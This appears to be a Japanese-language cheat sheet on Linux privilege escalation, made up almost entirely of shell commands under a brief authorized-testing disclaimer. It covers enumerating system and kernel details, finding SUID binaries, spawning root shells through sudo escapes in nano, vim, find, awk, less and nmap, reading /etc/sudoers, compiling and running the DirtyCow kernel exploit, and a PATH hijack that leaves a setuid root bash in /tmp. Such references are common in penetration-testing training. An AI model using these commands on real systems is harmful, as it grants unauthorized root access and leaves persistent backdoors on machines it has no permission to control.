# Linux Privilege Escalation Techniques

## 情報収集

### システム情報の収集
```bash
# OS情報
cat /etc/issue
cat /etc/*-release
uname -a

# カーネル情報
cat /proc/version
rpm -q kernel
dmesg | grep Linux
```

## SUID バイナリ

### SUID バイナリの探索と利用
```bash
# SUID ビットが設定されたファイルを検索
find / -perm -u=s -type f 2>/dev/null

# 一般的な SUID バイナリの利用
# Nano
sudo nano
^R^X
reset; sh 1>&0 2>&0

# Vim
sudo vim -c '!sh'

# Find
sudo find /etc -exec sh -i \;
```

## Sudo 権限昇格

### Sudo 権限の確認と利用
```bash
# Sudo 権限の確認
sudo -l

# Sudoers ファイルの確認
cat /etc/sudoers

# 一般的な Sudo コマンドの悪用
sudo awk 'BEGIN {system("/bin/sh")}'
sudo less /etc/hosts
!/bin/sh
sudo nmap --interactive
!sh
```

## カーネル脆弱性

### カーネル脆弱性の特定と悪用
```bash
# カーネルバージョンの確認
uname -a
cat /proc/version

# 脆弱性の確認
searchsploit linux kernel $(uname -r)

# DirtyCow の例（CVE-2016-5195）
gcc -pthread dirty.c -o dirty -lcrypt
./dirty password123
```

## 環境変数の悪用

### PATH 変更による権限昇格
```bash
# PATH 環境変数の確認
echo $PATH

# 悪意のあるバイナリの作成
echo '#!/bin/bash' > /tmp/service
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' >> /tmp/service
chmod 777 /tmp/service
export PATH=/tmp:$PATH
```

## 注意事項
- これらの技術は、許可された環境でのペネトレーションテストでのみ使用してください
- システムの重要な機能に影響を与える可能性があります
- 実環境での使用は違法となる可能性があります 